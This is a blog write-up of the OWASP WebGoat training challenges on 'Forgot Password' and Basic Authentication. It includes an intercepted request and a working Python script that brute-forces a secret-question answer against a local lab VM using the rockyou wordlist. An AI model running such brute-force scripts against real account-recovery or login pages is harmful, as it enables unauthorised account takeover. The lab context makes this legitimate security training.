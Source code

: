 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Authentication Flaws"
subtitle: "Forgot Password, Basic Authentication"
date:   2017-01-24 19:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Authentication Flaws: Forgot Password
Instructions:

- Users can retrieve their password if they can answer the secret question properly. There is no lock-out mechanism on this 'Forgot Password' page. Your username is 'webgoat' and your favorite color is 'red'. The goal is to retrieve the password of another user. 

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/landing-page.jpg">

So we have two hints that are going to help us solve this challenge. The first is on the login page, and says "See the OWASP admin if you do not have an account". The second hint for this challenge is in the phrase "no lock-out mechanism". Sounds like we're going to need to brute-force the admin's favorite color!

So first we navigate to the admin's Forgot Password page, and intercept a test request

```
POST /WebGoat/attack?Screen=64&menu=500 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=64&menu=500
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

Color=blue&SUBMIT=Submit
```

Now that we have a template request for our brute-forcer, it's time to break out everyone's favorite scripting language (or at least mine), Python, and write ourselves a handy-dandy brute-force script.

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"long_long_path_to_dir/rockyou.txt",
]


def main():
	wordlist = []
	print "[+] Populating the wordlist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			wordlist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(wordlist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="C1702A9FE913D04E2F177203213F9149",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,word in enumerate(wordlist):
		print ("[*] Attempt {} | Pass: {}".format(index, word))
		payload= {"Color":word,"SUBMIT":"Submit"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=64&menu=500", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "congratulations" in r.text.lower():
				print ("[+] SUCCESS! Password is: {}".format(word))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()

{% endhighlight %}

So instead of opting for a truly naive brute-force approach, I decided to go with a wordlist. Specifically the "rockyou.txt" list. It has an enormous list of some of the most common passwords in it, which include colors. The way this script works is by parsing each guess from the .txt wordlist file and passing it to a properly formatted request to the Forgot Password request URL. The script maintains headers and cookies to (semi) convincingly spoof the browser. The script then checks the lowercase-cast response for the string "congratulations", which has been in every challenge so far as a flag for correct guess. 

Let's see if it works!

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/rocked-you.jpg">

rocked.txt

# Basic Authentication
This lesson is broken on v5.4 (or at least my implementation of it), but it covers the Basic Authentication protocol. Basic Authentication is a simple method for enforcing access controls on server resources. The basic logical flow is as follows:

1. User requests a resource from the server
* I would like this page
2. Server responds with HTTP 401 Unauthorized
* I don't know who you are, or if you can have that
3. User sends request with Authorization header
* Authorization: Basic ```base64(user:passwd)```
4. Server sends response according to authorization status

It is important to remember that in HTTP everything is transmitted in cleartext, so this does not prevent anyone from stealing login credentials. HTTPS should be used in production systems.
